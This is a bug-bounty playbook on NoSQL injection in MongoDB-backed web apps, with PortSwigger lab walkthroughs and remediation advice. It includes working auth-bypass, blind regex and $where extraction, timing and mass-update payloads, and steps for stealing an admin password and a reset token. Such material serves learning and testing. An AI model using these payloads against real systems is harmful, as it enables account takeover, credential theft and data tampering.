

*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*

# NoSQL Injection : Master Playbook

> **The Translation Trap Analogy**: Traditional databases speak SQL. NoSQL databases (like MongoDB) speak a "Modern Language" using JSON objects. NoSQL Injection is like finding out that instead of just answering "Yes/No", the database can be tricked into executing its own internal logic by swapping a simple word for a special code like `$ne` (Not Equal).

---

## 0. Exploit Selection Search Tree



*   **1. Does the app use JSON or POST parameters for filtering/login?**
    *   Target: **[[#2.1 Operator Injection|Section 2.1: Simple `$ne` Testing]]**.
*   **2. Is your `'` or `"` input triggering a JavaScript syntax error?**
    *   Target: **[[#3.4 `$where` JavaScript Injection|Section 3.4: $where Clause Probing]]**.
*   **3. Are you trying to bypass a login page?**
    *   Target: **[[#2.1 Operator Injection|Section 2.1: Auth Bypass]]** using `{"$ne": ""}` or `{"$regex": "admin.*"}`.
*   **4. Can you distinguish between True/False responses (e.g., "Account Locked" vs "Invalid")?**
    *   Target: **[[#3.1 Boolean/Regex Siphoning|Section 3.1: Data Exfiltration]]** to extract fields character-by-character.
*   **5. Need to find hidden field names (like reset tokens)?**
    *   Target: **[[#3.4 `$where` JavaScript Injection|Section 3.4: $where Field Enumeration]]** (`Object.keys(this)[1]`).
*   **6. Are responses identical for True/False?**
    *   Target: **[[#4. Timing-Based Injection|Section 4: Timing-Based Injection]]** (`sleep(5000)`).

---

## 1. Professional Methodology: UX Summary Table

| Attack Vector | Beginner "Why" | Detection Indicator | Success Confirmation | Bounty Impact |
| :--- | :--- | :--- | :--- | :--- |
| **Operator Injection** | Swapping a password for a "Not Equal" command to bypass checks. | Payload like `[$ne]` is processed. | Successful login without a valid password. | P2 - P1 |
| **Boolean/Regex** | Asking the DB if a password starts with 'a', 'b', etc. | True/False yields different sizes. | Extracting unseen data character-by-character. | P3 - P2 |
| **$where Clause** | Running custom JS code directly on the database server. | Sleep or math executes in backend. | Executing arbitrary expressions within DB context. | P2 - P1 |
| **Timing/Sleep** | Making the server pause for 5 seconds if a guess is correct. | Response time heavily delayed. | Confirmation of logic via deterministic response times. | P3 - P2 |
| **Bulk Match** | Using operators like `$ne` to update every record at once. | Modification affecting multiple IDs. | Updating or deleting data for more than the intended object. | P2 - P1 |

---

## 1. Detection & Fingerprinting

### 1.1 Indicators of NoSQL Backend
*   24-character hex IDs in API responses (MongoDB ObjectIDs).
*   JSON-based API endpoints.
*   Node.js/Express or Python/Flask backends.
*   Error messages referencing `MongoError`, `BSONType`, or `$` operators.

### 1.2 Initial Probing
*   Change a string value to an object: `user=admin` → `user[$ne]=1`
*   Check for 500 errors, different response lengths, or successful logins.
*   If SQLi fails, always test for NoSQL operators, especially in JSON APIs.

---

## 2. Authentication Bypass

### 2.1 Operator Injection
*   **Form-Encoded**: `username=admin&password[$ne]=1`
*   **JSON-Based**: `{"username": "admin", "password": {"$ne": null}}`
*   **Not-Equal Match-All**: `{"username": {"$ne": ""}, "password": {"$ne": ""}}`
*   **Regex Admin Match**: `{"username": {"$regex": "admin.*"}, "password": {"$ne": ""}}`

### 2.2 URL-Encoded Operator Variants
*   `username=admin&password[$ne]=1`
*   `user[$regex]=^adm&user[$options]=i`

---

## 3. Data Exfiltration

### 3.1 Boolean/Regex Siphoning
*   **Username Enumeration**: `{"username": {"$regex": "^a.*"}, "password": {"$ne": "1"}}`
*   **Character-by-Character**: Iterate regex prefix `^a`, `^ab`, `^abc`... to extract values.

### 3.2 Length Testing
*   `{"$where": "this.password.length > 10"}` (Blind length testing).

### 3.3 Operator Combinations
*   Chain `$gt` (greater than) and `$lt` (less than) to narrow down numerical values or string characters.

### 3.4 `$where` JavaScript Injection
*   **Boolean Oracle**: `{"$where": "this.password.match('^.{§§}§§.*')"}`
*   **Field Enumeration**: `{"$where": "Object.keys(this)[1].match('^.{}.*')"}`
*   **Hidden Field Discovery**: `{"$where": "function(){ if(Object.keys(this)[4].match(/^changePwd/)) return 1; else return 0; }"}`

### 3.5 Mass Update via `$ne`
*   **Vector**: `PATCH /api/products/reviews` with `{"_id": {"$ne": "0"}, "message": "Defaced"}`
*   **Impact**: The `$ne` operator matches all records, causing bulk overwrite.

---

## 4. Timing-Based Injection

When boolean responses are indistinguishable:

1.  Load the page several times to determine a baseline loading time.
2.  Insert timing payload: `{"$where": "sleep(5000)"}`.
3.  If response loads slower → successful injection.

### 4.1 Conditional Timing Payloads
```javascript
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'
```
```javascript
admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```

---

## 5. Dangerous Backend Patterns

### 5.1 Node.js (Mongoose)
```javascript
// BAD: Attacker can send an object instead of a string
User.findOne({ username: req.body.username });

// GOOD: Explicitly cast to string
User.findOne({ username: String(req.body.username) });
```

### 5.2 PHP (MongoDB Driver)
```php
// BAD: $_POST values can be arrays
$query = ['user' => $_POST['user'], 'pass' => $_POST['pass']];
$cursor = $collection->find($query);
```

### 5.3 Remediation
*   **Type Enforcement**: Cast all inputs to `String` (Node.js) or `(string)` (PHP) before database queries.
*   **Sanitize Operators**: Strip any keys starting with `$` from user input.
*   **Schema Validation**: Use Mongoose schema validation to enforce expected types.

---

## 6. Portswigger Lab Solutions

### Lab 1: Detecting NoSQL Injection
**Goal**: Identify a NoSQL injection point in a product category filter and use it to display unreleased products.

**The Beginner "Why"**: In many web apps, the server takes your input (like a category name) and drops it directly into a database query. If the server doesn't "sanitize" your input, you can use special characters like a single quote (`'`) to "break out" of the intended query and add your own logic. In this lab, we use this to tell the database: "Show me everything, regardless of whether it's released or not."

**Step-by-Step Execution**:
1.  **Find the Injection Point**: Access the lab and click on a product category filter (e.g., "Gifts"). In Burp's **HTTP history**, find the request and send it to **Repeater**.
2.  **Trigger an Error**: Submit a single quote `'` in the `category` parameter.
    > **Observation**: The server returns a JavaScript syntax error. This is our "smoking gun"—it proves the server is taking our `'` and trying to run it as code.
    
3.  **Confirm Control**: Submit `Gifts'+'`. If the page loads normally, it means the server successfully concatenated our string. We are now "in control" of the query's logic.
    
4.  **Test Boolean Logic**:
    *   **False condition**: Submit `Gifts' && 0 && 'x`. The `&& 0` (False) forces the whole query to be false, so **no products** are returned.
    *   **True condition**: Submit `Gifts' && 1 && 'x`. The `&& 1` (True) keeps the query true, so **Gifts** are returned as usual.
    
    
5.  **The Final Exploit**: Submit `Gifts'||1||'`.
    > **How it works**: The `|| 1` (OR True) tells the database: "Show me the item if it's in the Gifts category **OR** if the number 1 is equal to 1." Since 1 is always 1, the database simply returns **every single product** it has, including unreleased ones.
    

---

### Lab 2: Operator Injection Auth Bypass
**Goal**: Bypass a login screen by injecting NoSQL operators into the JSON credentials.

**The Beginner "Why"**: Traditional SQL uses characters like `'` to inject logic. Modern NoSQL databases (like MongoDB) often use JSON objects for queries. If an app takes a JSON object directly from your request (e.g., `{"password": "your_pass"}`), you can "swap" your password string for a NoSQL operator like `$ne` (Not Equal). This essentially lets you say: "Log me in if my password is **NOT** equal to 'invalid_password'."

**Step-by-Step Execution**:
1.  **Intercept the Login**: Access the login page and submit junk credentials. Find the `POST /login` request in Burp and send it to **Repeater**.
2.  **Inject the "$ne" Operator**: Change the password parameter from `"junk"` to `{"$ne":"invalid"}`.
    > **The Logic**: Instead of looking for a specific password, the database now looks for any user where the password is NOT "invalid".
    
3.  **Target the Admin**: If you log in as a random user, you need to be more specific. Use the `$regex` (Regular Expression) operator to target the "administrator" specifically:
    `{"username": {"$regex": "admin.*"}, "password": {"$ne": "anything"}}`
    
4.  **Bypass Success**: The database matches the "administrator" user (because their password is indeed NOT "anything") and logs you in.
    
    
    

### Lab 3: Data Extraction (Blind NoSQL)
**Goal**: Extract the administrator's password byte-by-byte using boolean responses.

**The Beginner "Why"**: In "Blind" NoSQL injection, the server doesn't show you error messages or raw data. It only says "Success" or "Failure" (e.g., "User found" vs "User not found"). However, we can use this to play a game of "20 Questions" with the database. We ask: "Does the password start with 'a'?" If the server says "User found," we know the first letter is 'a'. We repeat this until we have the whole password.

**Step-by-Step Execution**:
1.  **Confirm the "Oracle"**: Establish a baseline for True/False responses.
    *   **True**: `wiener' && '1'=='1` (Details are displayed)
    *   **False**: `wiener' && '1'=='2` (Message: "Could not find user")
    
    
2.  **Find the Password Length**: Start asking about the length:
    `administrator' && this.password.length < 30 || 'a'=='b`
    Keep reducing the number. When you hit `administrator' && this.password.length == 8` and it returns "True," you've found the length.
    
    
3.  **Brute-Force Characters (Intruder)**: Send the request to **Intruder** and use the **Cluster Bomb** attack type.
    *   **Payload 1 (Index)**: Numbers 0 to 7 (to test each of the 8 characters).
    *   **Payload 2 (Character)**: Lowercase a-z (to test every possible letter).
    `administrator' && this.password[§0§]=='§a§`
    
    
4.  **Solve the Puzzle**: Filter Intruder results by "Length". Any request that returned the full user details is a "True" match. Line up the characters found at each index (0-7) to reveal the password.
    
    
    
    

---

### Lab 4: Extracting Unknown Fields via $where
**Goal**: Discover a hidden field name (a password reset token) and exfiltrate its value.

**The Beginner "Why"**: Sometimes you don't even know the name of the "target" field you want to steal (like `reset_token` or `is_admin`). MongoDB's `$where` clause allows you to run pure JavaScript on the server. We can use this to "interrogate" the internal user object and ask: "What are your field names?" or "Do you have a field that starts with 'c'?"

**Step-by-Step Execution**:
1.  **Confirm $where Acceptance**: Submit `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}`.
    > **Note**: If `"$where": "1"` (True) returns "Account Locked" and `"$where": "0"` (False) returns "Invalid," the server is executing our JavaScript.
    
    
2.  **Enumerate Field Names**: We use `Object.keys(this)` to get a list of all fields. We check the names one by one:
    `"$where":"Object.keys(this)[1].match('^.{§0§}§a§.*')"`
    We discover the field names are `username`, `password`, and eventually a hidden one...
    
    
    
    
3.  **Discovery of "changePwd"**: By checking index `Object.keys(this)[4]`, we find a field named `changePwd`. This is our target reset token!
    
    
    
4.  **Extract the Token Value**: Now we ask about the *content* of that field:
    `"$where":"this.changePwd.match('^.{§0§}§a§.*')"`
    We use Intruder to siphon the 16-character hex value.
    
    
    
5.  **The Hijack**: Once we have the token (e.g., `97ac40...`), we use it at the forgot-password endpoint to reset Carlos's password and log in.
    
    
    
    

---

### Alternative Data Extraction Workflow
```javascript
// Check logic: 1 = "Account Locked", 0 = "Invalid"
"$where": "function(){ if(Object.keys(this)[0].match('_id')) return 1; else 0; }"

// Find field name length (Result: 11)
"$where": "function(){ if(Object.keys(this)[3].length == 11) return 1; else 0; }"

// Extract field name (Result: "changePwd")
"$where": "function(){ if(Object.keys(this)[3].match(/^changePwd/)) return 1; else 0; }"

// Extract field value (Result: 97ac40aff26dfcc8)
"$where": "function(){ if(this.changePwd.match(/^a/)) return 1; else 0; }"
```

---

## Resources
*   [PortSwigger NoSQL Injection Labs](https://portswigger.net/web-security/nosql-injection)
*   [PayloadsAllTheThings - NoSQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
*   [HackTricks - NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
*   [Resources to learn](NOSQL%20Injection/Resources%20to%20learn%202f91808bc7b780d0bb8dee2c98724095.md)

---
*Navigation: [🏠 Home](../../Hunting%20Approach%20Guide.md) | [⬅️ Layer 2: Element Testing](../../Element%20Testing%20Checklist.md) | [⬅️ Layer 3: Vulnerability Staging](../../Vulnerability_Staging.md)*
